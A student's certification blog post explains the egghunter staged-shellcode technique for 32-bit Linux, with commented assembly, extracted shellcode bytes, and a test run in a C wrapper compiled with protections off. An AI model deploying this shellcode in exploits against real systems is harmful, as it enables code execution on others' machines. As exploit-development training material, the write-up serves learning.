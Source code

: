 **Assignment 3**

	Shellcode for Egghunter  

**Introduction**

	In a normal buffer overflow scenario, the location of where the shellcode is placed is more or less static and/or could be referenced by using a register and the available size in the stack memory is enough to fit the shellcode.Consider a scenario where the available buffer size is too small to squeeze the entire shellcode

	A technique called egg hunting may help us out here. Accoring to corelan ,Egg hunting is a technique that can be categorized as “staged shellcode”, and it basically allows you to use a small amount of custom shellcode to find your actual (bigger) shellcode (the “egg”) by searching for the final shellcode in memory.  In other words, first a small amount of code is executed, which then tries to find the real shellcode and executes it.

	There are 3 conditions that are important in order for this technique to work

		1. You must be able to jump to (jmp, call, push/ret) & execute “some” shellcode.  The amount of available buffer space can be relatively small, because it will only contain the so-called “egg hunter”.  The egg hunter code must be available in a predictable location (so you can reliably jump to it & execute it)

		2. The final shellcode must be available somewhere in memory (stack/heap/…).

		3. You must “tag” or prepend the final shellcode with a unique string/marker/tag. The initial shellcode (the small “egg hunter”) will step through memory, looking for this marker. When it finds it, it will start executing the code that is placed right after the marker using a jmp or call instruction.  This means that you will have to define the marker in the egg hunter code, and also write it just in front of the actual shellcode.


	Good Reads :
			https://www.fuzzysecurity.com/tutorials/expDev/4.html
			https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/
			http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf
			http://r00tin.blogspot.com/2009/03/heap-only-egg-hunter.html


**Methodology**

	The x86 processors in 32-bit mode support page sizes of 4KB, 2MB, and 4MB. Both Linux and Windows map the user portion of the virtual address space using 4KB pages. Bytes 0-4095 fall in page 0, bytes 4096-8191 fall in page 1, and so on.

	The Egghunter code will be browsing through the pages to look for the marker / egg and use access function to see the pages are accessible or not . If we get a efault error for a page ,we can skip that  page and check the next page.Once a valid page is found we look for the egg/marker and jmp on the codepart of the egg/marker


	Access Function

		access() checks whether the calling process can access the file pathname.
		Refer : https://linux.die.net/man/2/access

		int access(const char *pathname, int mode);

		Parameters
			*pathname will be the addresslocation of the page we want to check
			The mode specifies the accessibility check(s) to be performed, and is either the value F_OK, or a mask consisting of the bitwise OR of one or more of R_OK, W_OK, and X_OK. F_OK tests.

	Incase of an access deny  , and EFAULT will be returned ie (14)

	Our egg would be "0x41414141" and the egghunter will look for 0x4141414141414141 + "/bin/bash -c ifconfig" shellcode through the memory.Once the double egg is found, the control will be shifted  onto /bin/sh shellcode location

	8bytes 0x4141414141414141 is considered because we dont wanna match the egghunter shellcode itself
	
	Assembly Code

		global _start



		section .text

		_start:

        		; initialization
        		xor ecx, ecx
        		mul ecx          		#will clear ecx,eax and edx register
        		xor ebx, ebx
        		xor esi, esi

		next_lpage:
        		or dx,0xfff                
        						#using logical or with 0xfff and a memory address allows us to increment page sizes by a multiple of 4095. so next page is acheived using address location or ed with 0xfff , 4095 and 
        							adding a 1
        						#the reason we cant just increment page sizes with 4096 is hex(4096) = 0x1000 cause a null byte to be added in the shellcode								

		next_incr:
        		inc edx         		#page increment

        						;access function  to check permission

        		xor eax,eax       		#clear eax
        		mov edi,0x41414141      	#edi contains the egg we are looking for .
        		mov al,0x21             	#EAX conatins 33 , access function call number
        							#cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 33
        							##define __NR_access              33


        		lea ebx,[edx+8]         	#load the address value contained in edx + 8  to ebx 
        		int 0x80                	#access call to check if the page is accessible
        		cmp al,0xf2

        							#after the function call eax contains the return value , in case of 		EFAULT (bad address) the value we are looking for is 14 , Refer: cat /usr/include/asm-generic/errno-base.h

        							Since this is an error code it will actually be returned as a negative 14 thus in hex we get back 0xfffffff2  #2s compliment	

        							-14 

									0000 1110 
									1111 0001 + 
							               		1 
									-------------- 
									1111 0010 
									F   2

        		jz next_lpage  			#incase of a efaul , jump to next page

        		cmp edi,[edx]  			#egg match find ?
        		jnz next_incr  			#if not advance memory

        		cmp edi,[edx+4]         	#eggmatch twice ?
        		jnz next_incr			#if not advance page

        		lea esi,[edx+8]			#egg match twice , get the address location of the shellcode to be executed to esi
        		jmp esi				#jmp to location pointed by esi

**Practical**

Egg is 0x41414141 , the shellcode to be executed is of "/bin/bash -c ifconfig"

	toor@ubuntu:~/Desktop/slae/Assignments/3$ ./compile.sh egg
 	Assembling with nasm
	Success, Now Linking
	Go Ahead, may the force be with you
	toor@ubuntu:~/Desktop/slae/Assignments/3$
	
	Extracting Shellcode using objdump
	toor@ubuntu:~/Desktop/slae/Assignments/3$ objdump -d ./egg|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
		"\x31\xc9\xf7\xe1\x31\xdb\x31\xf6\x66\x81\xca\xff\x0f\x42\x31\xc0\xbf\x41\x41\x41\x41\xb0\x21\x8d\x5a\x08\xcd\x80\x3c\xf2\x74\xe8\x3b\x3a\x75\xe9\x3b\x7a\x04\x75\xe4\x8d\x72\x08\xff\xe6"

	Copy pasting shell code to C wrapper Program.
	toor@ubuntu:~/Desktop/slae/Assignments/3$ nano poc.c
	toor@ubuntu:~/Desktop/slae/Assignments/3$ gcc -fno-stack-protector -z execstack poc.c -o shellcode
	toor@ubuntu:~/Desktop/slae/Assignments/3$ ./shellcode
	Size: 47 bytes.
	eth0    Link encap:Ethernet  HWaddr 00:0c:29:f5:aa:6c
         	inet addr:192.168.230.169  Bcast:192.168.230.255  Mask:255.255.255.0
          	inet6 addr: fe80::20c:29ff:fef5:aa6c/64 Scope:Link
          	UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          	RX packets:83289 errors:0 dropped:0 overruns:0 frame:0
          	TX packets:34547 errors:0 dropped:0 overruns:0 carrier:0
          	collisions:0 txqueuelen:1000
          	RX bytes:57571168 (57.5 MB)  TX bytes:6962937 (6.9 MB)
          	Interrupt:19 Base address:0x2000
		
	lo      Link encap:Local Loopback
          	inet addr:127.0.0.1  Mask:255.0.0.0
          	inet6 addr: ::1/128 Scope:Host
          	UP LOOPBACK RUNNING  MTU:65536  Metric:1
          	RX packets:6986 errors:0 dropped:0 overruns:0 frame:0
          	TX packets:6986 errors:0 dropped:0 overruns:0 carrier:0
          	collisions:0 txqueuelen:0
          	RX bytes:627379 (627.3 KB)  TX bytes:627379 (627.3 KB)

	toor@ubuntu:~/Desktop/slae/Assignments/3$

	Works like a charm


**Github Repo**

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1509
        	

